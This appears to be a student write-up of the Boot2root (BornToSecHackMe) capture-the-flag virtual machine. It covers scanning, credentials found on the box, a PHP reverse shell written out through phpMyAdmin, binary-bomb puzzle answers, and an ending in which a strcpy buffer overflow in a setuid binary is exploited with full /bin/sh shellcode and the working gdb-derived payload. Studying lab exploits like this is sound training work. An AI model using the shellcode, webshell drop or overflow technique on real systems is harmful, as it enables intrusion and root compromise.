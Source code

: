 We make network connection in VBox as "Bridge" or "Virtual network"
After it we can scan ourselves with nmap to find Boot2root ip and open ports.

![ip_network](screenshots/ip_network.png)

We found web site under this server.
So we scan 80 and 443 with dirb to find directories. It is output:


![nmap_result](screenshots/nmap_result.png)


Now we have three new points: /fonts (http) and /phpmyadmin, /webmail, /forum (https).
- Fonts are not interesting for us
- phpmyadmin request creditnails. We will not brute it((
- webmail same as above.
- forum works and we can find some useful thigs inside.

On form we see theme by lmezard called "Probleme login?".
It's log and we search for some info. Here we have one string, that seems like password,
if we try it to log in forum, we will succeed. Forum login/pass - lmezard:!q\]Ej?*5K5cy*AJ

![forum](screenshots/forum.png)

After it we can try to Contact and now have lmezard's E-mail adress. If we try to use it to auth /webmail, we will succeed again.
/webmail login/pass - laurie@borntosec.net:!q\]Ej?*5K5cy*AJ

In mailbox we have two messages, one of them includes creds for something called "database".
It is /phpmyadmin login/pass root/Fg-'kKXBj87E:aJ$

![message](screenshots/message.png)

Now is time for Explotation. In phpmyadmin we can make unlimited SQL queries and it means that we could send a payload into a file.
We only should find place where we have access to write files. But we have this place. Look again at dirb output.
Trying several directories and drop php file: In one of directories var/www/forum/templates_c we have enougth rights.

![drop](screenshots/drop.png)

Ok. Now we need reverse shell, we can generate it in base64 with help of 'https://www.revshells.com/'.
And we drop full code with PHP method base64_decode in p.php, start nc, open p.php in browser, improve our shell with python.

![reverse_shell](screenshots/reverse_shell.png)

Now we need to explore system. We look for /home directory, there is dir LOOKATME which contains file password. NICE user login/password lmezard:G!@M6f4Eatau{sF"

![lmezard's_home_dir](screenshots/lmezard's_home_dir.png)

When we logged as lmezard, we found files in his home directory. 'fun' is tar archive, so it will be little more convvenient, to work with it on local machine.
We just copy 'fun' to /forum/templates_c and use chmod 777 (lol). Now we can download file with wget on local machine.

![fun_download](screenshots/fun_download.png)

Then we find a lot pcap files in dir. To deobfuscate it we use sh script. When job is done we use enfile as C-code, compile it and have password, which needed to be cripted with sha-256. hmmm... use sha256 and ssh login/password laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
NICE

![pcap_handle](screenshots/pcap_handle.png)

Now we fnally can connect to machine via ssh. We have README, which says we must defuse the bomb and 'bomb'-ELF exutable.
We haven't passion to start binaries named bomb so let's look to strings. We can see all 'phases', that we need to defuse bomb.
We had hint in README, so easily go to stage two. Let's find all passwords with hint. I thought...
But it doesnt work for 2nd level. OK, we download radare2, and here we go.

2nd level. 
We have two simple functions. First, we read six numbers from stdin. If numbers count not equal six, we exlode bomb.
Simply run debugger and watch at cmp instruction. At the end we have 1 2 6 24 120 720

![l2_read_six_nums](screenshots/bomb/l2_read_six_nums.png)

3d level.
Func want two numbers and letter. OKAY. It is only begin. We see a lot of jumps fahrer from start. There is switch-case construction.
It depend from first number value. So we try everything from first condition and we're good.
In the HINT our letter is b, so second group of values is ours. 1 b 214. OK

![l3_beginning](screenshots/bomb/l3_beginning.png)
![l3_general](screenshots/bomb/l3_general.png)

4th level.
Owh. We're bad. We have recoursive function here. It will be hard. 
We have internet, so we can install ghydra with 'r2pm --ci r2ghydra'.
OKAY. Now we decompile our phase_4 
Simply decompil function and see pritty easy task. Write python script which copy our function.
It's just fibonacci function and we need to get 55 It is 9th number of sequense and answer 9

![l4_recursive.png](screenshots/bomb/l4_recursive.png)

5th level.
Here we see some tricks with arrays. OKAY. The good solution - copy function in python and after it copy alghoritm.
So we play with script and solve this problem. Answer - opekmq

![l5_decompiled.png](screenshots/bomb/l5_decompiled.png)

6th level.
Here we have REALY coplex function. Sowe need a few hours, debugger and patient. We run and rerun this program. 
In we end we have six numbers. Password - 4 2 6 3 1 5

![l6_complex.png](screenshots/bomb/l6_complex.png)

Now we have all passwords. We remove all whitespases and here we go, next login/password 
And in thor acc we have turtle and README. README doesn't tell anything usefull, so we look at file. It's text with directions of tutle. In Mother Russia we did this things it school. ON PAPER. And now We just write python script.

![turtle.dir](screenshots/turtle.png)

We done with it to. Script works fine and we have some letters. Now we can MD5 them and get next login/pass 

![SLASH_md5](screenshots/SLASH_md5.png)

Given setuid binary exploit_me. Lets disassemble it:

    (gdb) set disassembly-flavor intel
    (gdb) disass main
    Dump of assembler code for function main:
    0x080483f4 <+0>:	push   ebp
    0x080483f5 <+1>:	mov    ebp,esp
    0x080483f7 <+3>:	and    esp,0xfffffff0
    0x080483fa <+6>:	sub    esp,0x90
    0x08048400 <+12>:	cmp    DWORD PTR [ebp+0x8],0x1
    0x08048404 <+16>:	jg     0x804840d <main+25>
    0x08048406 <+18>:	mov    eax,0x1
    0x0804840b <+23>:	jmp    0x8048436 <main+66>
    0x0804840d <+25>:	mov    eax,DWORD PTR [ebp+0xc]
    0x08048410 <+28>:	add    eax,0x4
    0x08048413 <+31>:	mov    eax,DWORD PTR [eax]
    0x08048415 <+33>:	mov    DWORD PTR [esp+0x4],eax
    0x08048419 <+37>:	lea    eax,[esp+0x10]
    0x0804841d <+41>:	mov    DWORD PTR [esp],eax
    0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
    0x08048425 <+49>:	lea    eax,[esp+0x10]
    0x08048429 <+53>:	mov    DWORD PTR [esp],eax
    0x0804842c <+56>:	call   0x8048310 <puts@plt>
    0x08048431 <+61>:	mov    eax,0x0
    0x08048436 <+66>:	leave
    0x08048437 <+67>:	ret
    End of assembler dump.

There is unprotected strcpy from command line arguments into buffer, we can abuse that by writing shellcode inside env variable and overwrite return eip address to point on this variable address.
We can use this shellcode:

    \x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80

Assembly of this shellcode will look like this:

    xor    ebx,ebx
    mov    eax,ebx
    mov    al,0x17
    int    0x80
    xor    ebx,ebx
    mov    eax,ebx
    mov    al,0x2e
    int    0x80
    xor    eax,eax
    push   eax
    push   0x68732f2f
    push   0x6e69622f
    mov    ebx,esp
    push   eax
    push   ebx
    mov    ecx,esp
    xor    edx,edx
    mov    al,0xb
    int    0x80

First we need to create shellcode env variable:

    zaz@BornToSecHackMe:~$ export SHELLCODE=$(python -c 'print("\x90"*10+"\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')

Next we need to find offset to eip and SHELLCODE env variable address:

    zaz@BornToSecHackMe:~$ gdb ./exploit_me
    (gdb) b *main+49
    Breakpoint 1 at 0x8048425
    (gdb) run aaaabbbbccccdddd
    Starting program: /home/zaz/exploit_me aaaabbbbccccdddd

    Breakpoint 1, 0x08048425 in main ()
    (gdb) info frame
    Stack level 0, frame at 0xbffff6d0:
    eip = 0x8048425 in main; saved eip 0xb7e454d3
    Arglist at 0xbffff6c8, args:
    Locals at 0xbffff6c8, Previous frame's sp is 0xbffff6d0
    Saved registers:
    ebp at 0xbffff6c8, eip at 0xbffff6cc
    (gdb) x/50x $sp
    0xbffff630:	0xbffff640	0xbffff8ac	0x00000001	0xb7ec3c49
    0xbffff640:	0x61616161	0x62626262	0x63636363	0x64646464
    0xbffff650:	0xbffff700	0xb7fdd000	0x00000000	0xb7e5ec73
    0xbffff660:	0x08048241	0x00000000	0x00c30000	0x00000001
    0xbffff670:	0xbffff897	0x0000002f	0xbffff6cc	0xb7fd0ff4
    0xbffff680:	0x08048440	0x080496e8	0x00000002	0x080482dd
    0xbffff690:	0xb7fd13e4	0x00000016	0x080496e8	0x08048461
    0xbffff6a0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
    0xbffff6b0:	0xb7fed280	0x00000000	0x08048449	0xb7fd0ff4
    0xbffff6c0:	0x08048440	0x00000000	0x00000000	0xb7e454d3
    0xbffff6d0:	0x00000002	0xbffff764	0xbffff770	0xb7fdc858
    0xbffff6e0:	0x00000000	0xbffff71c	0xbffff770	0x00000000
    0xbffff6f0:	0x0804820c	0xb7fd0ff4
    (gdb) x/20s *((char**)environ)
    0xbffff8bd:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\061ۉذ\027̀1ۉذ.̀1\300Ph//shh/bin\211\343PS\211\341\061Ұ\v̀"

Shellcode address is 0xbffff8bd, offset from buffer to old eip is 140 bytes.
Now we can perform our exploit:

    zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("a"*140 + "\xbd\xf8\xff\xbf")')
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa����
    # whoami
    root
    #



